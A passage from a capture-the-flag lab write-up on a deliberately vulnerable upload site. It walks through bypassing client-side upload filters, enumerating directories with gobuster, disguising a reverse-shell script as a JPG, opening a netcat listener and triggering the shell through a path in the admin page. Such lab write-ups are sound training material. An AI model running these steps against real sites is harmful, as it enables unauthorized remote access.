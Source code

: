 So we go to the site. Intercept the upload.js and delete all of the
functions above. We still cannot upload the `reverse.js` file cause of
**server side filters**.

We turn off intercept and continue to the next step

#### The third step

We can run **gobuster** in order to find hidden dirs and where we can access
the uploaded file

```bash
gobuster dir -u http://jewel.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,js
```

The output:

```text
/content (Status: 301)
/modules (Status: 301)
/admin (Status: 200)
/assets (Status: 301)
/Content (Status: 301)
/Assets (Status: 301)
/Modules (Status: 301)
/Admin (Status: 200)
```

We find out some interesting dirs **/admin** and **/content**

We have a wordlist so if we upload a small.jpg photo and run gobuster

```bash
gobuster dir -u http://jewel.uploadvulns.thm/content/ -w UploadVulnsWordlist.txt -x jpg
```

We see that we can access the photos:

```text
/ABH.jpg (Status: 200)
/LKQ.jpg (Status: 200)
/SAD.jpg (Status: 200)
/UAD.jpg (Status: 200)
```

#### The fourth step

After all the client-side bypassing we need to figure out the server-side
filtering.

To do that following the instructions we change teh `reverse.js` to `reverse.jpg`

We run again gobuster to find the jpg photo that we uploaded
In this case it is: **DHL.jpg**

We set up a listener

```bash
nc -nvlp 4444
```

In the **/admin** directory we type

```bash
../content/DHL.jpg
```

And we get a reverse shell

```json
```
